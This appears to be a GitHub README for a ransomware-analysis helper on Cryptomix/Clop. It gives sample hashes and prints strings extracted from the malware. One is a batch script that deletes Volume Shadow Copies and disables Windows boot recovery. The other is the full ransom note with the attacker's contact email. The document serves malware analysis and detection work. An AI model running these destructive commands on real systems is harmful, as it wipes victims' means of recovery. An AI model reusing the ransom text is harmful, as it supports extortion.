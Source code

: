 # cryptomix-clop-ransomware

Cryptomix Ransomware Mal Helper

Packed Digital Signed Crypted Bin:
```SHA-256: 10f4be34c2e41e6c2d4932ab77f189cf5da659abd028537604eae6435c83516a```
Unpacked Ransomware Bin:
```SHA-256: 79b8c37a5e2a32e8f7e000822cec6f2f4e317620a2296f1aa3f35b2374c396ec```
Reference: `https://twitter.com/malwrhunterteam/status/1098578106112245760`

```bytearray(b'@echo off\r\nvssadmin Delete Shadows /all /quiet\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB\r\nvssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded\r\nvssadmin Delete Shadows /all /quiet\t\t\r\nbcdedit /set {default} recoveryenabled No\r\nbcdedit /set {default} bootstatuspolicy ignoreallfailures\t ')```

```bytearray(b'!Your networks has been penetrated!\r\nAll files on each host in the network have been encrypted with a strong algorithm!!!\r\nBackups were either encrypted or deleted or backup disks were formatted!!!\r\nShadow copies also removed, so F8 or any other methods may damage encrypted data but not recover!!!\r\nWe exclusively have decryption software for your situation.\r\nNo DECRYPTION software is AVAILABLE in the PUBLIC.\r\n* DO NOT DELETE readme files.\r\n* DO NOT RENAME OR MOVE the encrypted and readme files.\r\n* DO NOT RESET OR SHUTDOWN \xe2\x80\x93 files may be damaged.\r\n!!!THIS MAY LEAD TO THE IMPOSSIBILITY OF RECOVERY OF THE CERTAIN FILES!!!\r\n!!!ALL REPAIR TOOLS ARE USELESS AND CAN DESTROY YOUR FILES IRREVERSIBLY!!!\r\nIf you want to restore your files write to emails. \r\n[CONTACTS ARE AT THE BOTTOM OF THE SHEET] and attach 2 - 3 encrypted files.\r\n[Less than 6 Mb each, non-archived and your files should not contain valuable information\r\n[Databases, backups, large excel sheets, etc.]]!\r\n!!You will receive decrypted samples and our conditions how to get the decoder!!!\r\n\r\n***ATTENTION***\r\n!!!YOUR WARRANTY  -  DECRYPTED SAMPLES!!!\r\nDO NOT TRY TO DECRYPT YOUR DATA USING THIRD PARTY SOFTWARE!!!\r\nWE DON`T NEED YOUR FILES AND YOUR INFORMATION!!!\r\n\r\nContacts E-MAIL: \r\nunlock@eqaltech.su \r\n\r\n***THE FINAL PRICE DEPENDS ON HOW FAST YOU WRITE TO US***\r\n===Nothing personal just business===  Clop^_-')```
